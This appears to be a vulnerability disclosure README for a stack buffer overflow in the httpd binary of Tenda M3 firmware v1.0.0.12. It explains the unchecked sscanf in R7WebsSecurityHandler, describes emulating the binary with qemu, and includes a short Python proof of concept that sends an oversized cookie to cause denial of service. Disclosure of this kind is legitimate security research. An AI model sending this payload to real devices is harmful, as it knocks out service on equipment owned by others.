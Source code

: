 # Tenda M3 contains Stack Buffer Overflow Vulnerability

## overview

- type: stack overflow vulnerability

- supplier: Tenda https://www.tenda.com 

- product: TendaM3 https://www.tenda.com.cn/product/M3.html

- firmware download:   https://www.tenda.com.cn/download/detail-3133.html

- affect version: TendaM3 v1.0.0.12(4856)

## Description

### 1. Vulnerability Details

the `httpd` in directory `/bin` has a stack buffer overflow. The vunlerability is in fucntion `R7WebsSecurityHandler` 

![image-20220819012934119](readme.assets/image-20220819012934119.png)

It use sscanf to read strings to stack buffer `dest`without checking its length. 

### 2. Recurring loopholes and POC

use qemu-arm-static to run the `httpd`, we need to patch it before run. 

- in `main` function, The `ConnectCfm` function didn’t work properly, so I patched it to `NOP` 

poc of DOS(deny of service)

```python
import requests


cookies = {
    "Cookie": "user=.gif"+"a"*0x200
}

res = requests.post("http://127.0.0.1/goform/helloworld", cookies=cookies)
print(res.content)


```

![image-20220819012908220](readme.assets/image-20220819012908220.png)

![image-20220819012810224](readme.assets/image-20220819012810224.png)

